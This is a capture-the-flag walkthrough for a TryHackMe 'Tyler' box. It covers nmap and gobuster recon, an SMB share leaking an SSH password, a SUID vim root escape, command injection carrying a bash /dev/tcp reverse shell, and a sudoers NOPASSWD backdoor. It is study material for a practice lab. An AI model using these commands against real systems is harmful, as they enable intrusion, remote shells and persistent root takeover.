




# KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports Via Nmap -<br/>

`nmap -sC -sV 10.10.243.130`

```
22
80
139
445
3306
5000
8080
```




##### Subdirectories Via Gobuster -<br />

`gobuster dir -u http://10.10.243.130 -w /usr/share/dirbuster/directory-list-2.3-medium.txt `

```
/upload
/betatest
```



##### Initial access -<br/> 



```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

`find / -perm -4000 2>/dev/null`



```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/<ip>/<port> 0>&1`


> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```


